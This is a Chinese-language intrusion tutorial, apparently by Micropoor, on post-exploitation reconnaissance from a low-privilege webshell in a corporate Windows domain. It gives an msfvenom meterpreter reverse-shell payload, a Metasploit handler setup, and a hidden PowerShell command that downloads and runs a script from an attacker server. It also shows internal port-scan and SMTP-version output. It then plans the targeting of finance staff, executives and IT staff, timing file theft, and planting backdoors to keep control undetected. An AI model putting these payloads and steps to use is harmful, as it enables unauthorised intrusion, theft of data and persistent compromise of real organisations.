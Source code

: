 
>   目标资产信息搜集的程度，决定渗透过程的复杂程度。

>   目标主机信息搜集的深度，决定后渗透权限持续把控。

>   渗透的本质是信息搜集，而信息搜集整理为后续的情报跟进提供了强大的保证。

>   ----Micropoor

文章将连载，从几方面论证，**渗透的本质是信息搜集**。

一次完整的网络渗透，不仅仅是与目标管理人员的权限争夺，一次完整的网络渗透，它分为两大块，**技术业务**与**信息分析业务**。

而**技术业务要辅助并且要为信息分析业务提供强大的支撑与保证**。同时**信息分析业务要为技术业务提供关键的目标信息分析逻辑关系与渗透方向**。

案例如下：(非root/administrator下主动信息搜集)（有马赛克）

在得到一个webshell时，非root/administrator情况下对目标信息搜集至关重要，它会影响后期的渗透是否顺利，以及渗透方向。

目标主机分配了2个内网IP，分别为 10.0.0.X 与 192.168.100.X  
![](media/8662257637ef2af4586f753a113dae25.jpg)

得知部分服务软件，以及杀毒软件 NOD32，一般内网中为杀毒为集体一致。

![](media/648cf924f838838a640e5d845c6b0a26.jpg)

搜集补丁更新频率，以及系统状况  
![](media/bf97b8416a0bb48ff30263a02da4c80b.jpg)

搜集安装软件以及版本，路径等。  

![](media/300fe596787c9c2cbebd471591629f6b.jpg)  

![](media/caae57861800df2ea13d2677b2ac8a1c.jpg)

域中用户如下。目前权限为 iis apppool\xxxx  

![](media/71d9d6527589b430f48a7ca0a1efdce2.jpg)

正如上面所说，技术业务需要辅助分析业务。在域组中，其中有几个组需要特别关注，在一般的大型内网渗透中，需要关注大致几个组

**（1）IT组/研发组** 他们掌握在大量的内网密码，数据库密码等。  
**（2）秘书组** 他们掌握着大量的目标机构的内部传达文件，为信息分析业务提供信息，在反馈给技术业务来确定渗透方向  
**（3）domain admins组** root/administrator  
**（4）财务组**  他们掌握着大量的资金往来与目标企业的规划发展，并且可以通过资金，来判断出目标组织的整体架构  
**（5）CXX组** ceo cto coo等，不同的目标组织名字不同，如部长，厂长，经理等。  

![](media/fcb0d45dbf09c50adbf473f85fb468c0.jpg)

以研发中心为例：研发中心共计4人。

**并且开始规划信息刺探等级：**

**等级1：**确定某部门具体人员数量 如研发中心4人  
**等级2：**确定该部门的英文用户名的具体信息，如姓名，联系方式，邮箱，职务等。以便确定下一步攻击方向  
**等级3：**分别刺探白天/夜间  内网中所存活机器并且对应IP地址  
**等级4：** 对应人员的工作机内网IP，以及工作时间  
**等级5：** 根据信息业务反馈，制定目标安全时间，以便拖拽指定人员文件，或登录目标机器  
**等级6：** 制定目标机器后渗透与持续渗透的方式以及后门

### 刺探等级1
![](media/cc9a229d319f91d109bd7a84874fa341.jpg)

### 刺探等级2
![](media/5305a8890be45902aacb107373c3a046.jpg)

![](media/35fed4bbfade4243fb017db7c199822f.jpg)

在 net user /domain 后得到域中用户，但需要在**非root/administrator**权限下得到更多的信息来给信息分析业务提供数据，并确定攻击方向。

在案例中针对 nod32，采用 powershell payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx
LPORT=xx -f psh-reflection > xx.ps1
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost xxx.xxx.xxx.xxx lhost => xxx.xxx.xxx.xxx
msf exploit(handler) > set lport xxx lport => xxx
msf > run

powershell -windowstyle hidden -exec bypass -c "IEX (New-ObjectNet.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/xxx.ps1');"
```
注意区分目标及系统是32位还是64位。  

![](media/65937ec4401b9b85a2a7280e6e8b1e14.jpg)  

![](media/98463d3aa553b77e77a057eae6a3f57c.jpg)  

![](media/6ef6fb36515c9ab57e0e38a24e2fc809.jpg)  

![](media/2b7fd17d2d1c8c1ffd13134ce502c1b5.jpg)  

![](media/627f7d0b2cf780725115a7eaa1dfb01b.jpg)

接下来将会用 IIS APPPOOL\\XXXX 的权限来搜集更多有趣的信息  

![](media/50409d7054b3842df85370c03b4c88f8.jpg)

某数据库配置 for mssql  

![](media/474c1c2549316bbf317fa0ee1be8c461.jpg)  

![](media/7f942b8a47046f622a76c9fcfa17131e.jpg)

白天测试段10.0.0.x段在线主机 for windows （部分）  

![](media/c1dc05330e082caae0c6895ac1c1abcb.jpg)

### 10.0.0.x 段信息刺探：
IP 1-50 open 3389 （部分）  

![](media/04045975dcc3d3b9aacfe9ed44cc8a45.jpg)  

```bash
[+] 10.0.0.2: - 10.0.0.2:3389 - TCP OPEN
[+] 10.0.0.3: - 10.0.0.3:3389 - TCP OPEN
[+] 10.0.0.5: - 10.0.0.5:3389 - TCP OPEN
[+] 10.0.0.7: - 10.0.0.7:3389 - TCP OPEN
[+] 10.0.0.9: - 10.0.0.9:3389 - TCP OPEN
[+] 10.0.0.12: - 10.0.0.12:3389 - TCP OPEN
[+] 10.0.0.13: - 10.0.0.13:3389 - TCP OPEN
[+] 10.0.0.14: - 10.0.0.14:3389 - TCP OPEN
[+] 10.0.0.26: - 10.0.0.26:3389 - TCP OPEN
[+] 10.0.0.28: - 10.0.0.28:3389 - TCP OPEN
[+] 10.0.0.32: - 10.0.0.32:3389 - TCP OPEN
```
IP 1-255 open 22,25 （部分）  

![](media/d75d26fbe0f7bf91da3fe7db65c58c76.jpg)  

```bash
[+] 10.0.0.3: - 10.0.0.3:25 - TCP OPEN
[+] 10.0.0.5: - 10.0.0.5:25 - TCP OPEN
[+] 10.0.0.14: - 10.0.0.14:25 - TCP OPEN
[+] 10.0.0.15: - 10.0.0.15:22 - TCP OPEN
[+] 10.0.0.16: - 10.0.0.16:22 - TCP OPEN
[+] 10.0.0.17: - 10.0.0.17:22 - TCP OPEN
[+] 10.0.0.20: - 10.0.0.20:22 - TCP OPEN
[+] 10.0.0.21: - 10.0.0.21:22 - TCP OPEN
[+] 10.0.0.31: - 10.0.0.31:22 - TCP OPEN
[+] 10.0.0.38: - 10.0.0.38:22 - TCP OPEN
[+] 10.0.0.40: - 10.0.0.40:22 - TCP OPEN
[+] 10.0.0.99: - 10.0.0.99:22 - TCP OPEN
[+] 10.0.0.251: - 10.0.0.251:22 - TCP OPEN
[+] 10.0.0.254: - 10.0.0.254:22 - TCP OPEN
```
IP 1-255 smtp for version （部分）  

![](media/9c33b4d83946e383cce75062f50138cd.jpg)  


```bash
msf auxiliary(smtp_version) \> run

[+] 10.0.0.3:25 - 10.0.0.3:25 SMTP 220 xxxxxxxxxxxxxxxxx MAIL Service,Version: 7.5.7601.17514 ready at Wed, 14 Feb 2018 18:28:44 +0800 \\x0d\\x0a
[+] 10.0.0.5:25 - 10.0.0.5:25 SMTP 220 xxxxxxxxxxxxxxxxx Microsoft ESMTP MAIL Service, Version: 7.5.7601.17514 ready at Wed, 14 Feb 2018 18:29:05 +0800 \\x0d\\x0a
[+] 10.0.0.14:25 - 10.0.0.14:25 SMTP 220 xxxxxxxxxxxxxxxxxt ESMTP MAIL Service, Version: 7.0.6002.18264 ready at Wed, 14 Feb 2018 18:30:32 +0800 \\x0d\\x0a
```  

![](media/aa86c13c60cfabb912e9f7bdf7517ccf.jpg)

在iis apppool\xxxx的权限下，目前得知该目标内网分配段，安装软件，杀毒，端口，服务，补丁更新频率，管理员上线操作时间段，数据库配置信息，域用户详细信息（英文user对应的职务，姓名等），以上数据等待信息分析业务，来确定攻击方向。如财务组，如cxx组等。并且完成了**刺探等级1-4**

而在以上的信息搜集过程中，提权不在是我考虑的问题了，可以Filezilla server提权，mssqsl数据库提权，win03提权，win2000提权，win08提权，iis.x提权，内网映射提权等。而现在需要做的是如何反制被发现来制定目标业务后门，以便长期控制。

下一季的连载，将会从三方面来讲述大型内网的信息刺探，既有0day的admin权限下刺探，无提权下的guest/users权限下刺探。数据库下的权限刺探。域权限延伸到办公PC机的信息刺探。以及只有路由权限下的信息刺探。原来在渗透过程中，提权是次要的，信息刺探才是渗透的本质。  

>   Micropoor
